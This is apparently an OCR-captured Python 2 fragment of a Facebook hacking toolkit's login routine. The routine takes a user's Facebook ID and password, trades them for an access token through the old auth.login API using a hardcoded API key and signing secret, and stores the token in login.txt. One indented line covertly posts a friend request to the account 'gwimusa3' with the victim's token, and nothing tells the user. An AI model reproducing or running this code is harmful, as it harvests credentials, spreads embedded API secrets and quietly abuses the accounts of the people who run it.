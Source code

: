 ##### LOGIN #####
#================#
def login():
	os.system('clear')
	try:
		fb_token = open('login.txt','r')
		menu()
	except (KeyError,IOError):
		os.system('clear')
		print logo
		print('\033[1;91m[☆] \033[1;92mFACEBOOK LOGIN \033[1;91m[☆]')
		id = raw_input('\033[1;91m[+] \033[1;36mID\033[1;97m|\033[1;96mEmail\033[1;97m \033[1;91m:\033[1;92m ')
		pwd = getpass.getpass('\033[1;91m[+] \033[1;36mPassword \033[1;91m:\033[1;92m ')
		load()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;91m[!] No connection"
			exit()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				pick = open("login.txt", 'w')
				pick.write(z['access_token'])
				pick.close()
				print '\n\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mLogin successfully'
                                requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;91m[!] No connection"
				exit()
		if 'checkpoint' in url:
			print("\n\033[1;91m[!] \033[1;93mAccount Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			exit()
		else:
			print("\n\033[1;91m[!] Login Failed")
			os.system('rm -rf login.txt')
			time.sleep(0.01)
			login()
